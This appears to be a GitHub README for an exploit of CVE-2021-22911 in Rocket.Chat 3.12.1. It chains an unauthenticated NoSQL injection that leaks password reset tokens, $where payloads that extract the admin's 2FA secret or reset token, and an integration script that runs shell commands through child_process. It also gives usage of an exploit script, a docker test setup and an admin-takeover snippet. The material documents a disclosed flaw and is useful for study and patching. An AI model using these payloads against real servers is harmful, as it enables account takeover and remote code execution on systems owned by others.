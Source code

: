 # CVE-2021-22911
Pre-Auth Blind NoSQL Injection leading to Remote Code Execution in Rocket Chat 3.12.1

- The getPasswordPolicy method is vulnerable to NoSQL injection attacks and does not require authentication/authorization. It can be used to take over accounts by leaking password reset tokens. Taking over an admin account leads to Remote Code Execution.


### Explanation
1) **Hijacking user's account ( Unauthenticated )**
- There is NoSQL injection in **getPasswordPolicy** endpoint in password reset **token** parameter, which takes json object allowing us to use **$regex** operator. Which we use to perform blind nosql injection to get reset token.

2) **Privilege Escalation to admin ( Authenticated )**
- So admin user is most likely to be protected by 2fa. So even if we change admin's password through (1) it will prompt for 2fa code on login.
- **users.list** api endpoint takes query parameter which is vulnerable to nosql injection. We are also able to retrieve data by throwing an error. 
- We run the following query to get admin's 2fa secret : `{"$where":"this.username==='admin' && (()=>{ throw this.services.totp.secret })()"}`
- Next we just do (1) to reset admin's password and use the 2fa secret to generate code which we can use to login.

- **Updated : You can also retrieve the reset token through the same way you retrieved 2fa secret** : `{"$where":"this.username==='admin' && (()=>{ throw this.services.password.reset.token })()"}`

3) **RCE ( Autenticated - Admin )**
- Rocket.Chat has a feature called Integrations that allows creating incoming and outgoing web hooks. These web hooks can have scripts associated with them that are executed when the web hook is triggered. 
- We create a integration with the following script :
```js
const require = console.log.constructor('return process.mainModule.require')();
const { exec } = require('child_process');
exec('command here');
```
- Next we just trigger the webhook to get rce :)

### Usage
- You will need a low priv user's email who has no 2fa setup. ( -u )
- You will also need to know administrator email. Not a problem if admin is protected with 2fa. ( -a )

```bash
python3 exploit.py -u "user@rocket.local" -a "admin@rocket.local" -t "http://rocket.local"
```

### Environment
- Tested on Rocket Chat 3.12.1
- Building your own test environment using docker :
```
docker run --name db -d mongo:3.6 --smallfiles --replSet rs0 --oplogSize 128
docker exec -ti db mongo --eval "printjson(rs.initiate())"
docker run --name rocketchat -p 80:3000 --link db --env ROOT_URL=http://localhost --env MONGO_OPLOG_URL=mongodb://db:27017/local -d rocket.chat:3.12.1

```
- Enable Password Policy
- Enable 2FA for Admin
- Register a normal user.

NOTE: If you don't want Administrator protected with 2FA you can do the following.
1) Send forget password mail 
2) Get resettoken for admin
3) Change the password using the reset token retrieved
```py
# Admin Account Takover [ No 2fa ]
forgotpassword(adminmail,target)
token = resettoken(target)
changingpassword(target,token)
```


### Credits
- https://hackerone.com/reports/1130721 ( sonar source ) 
- https://blog.sonarsource.com/nosql-injections-in-rocket-chat

### Exploit-db
- https://www.exploit-db.com/exploits/49960 ( v1 ) 
- https://www.exploit-db.com/exploits/50108 ( v2 ) 
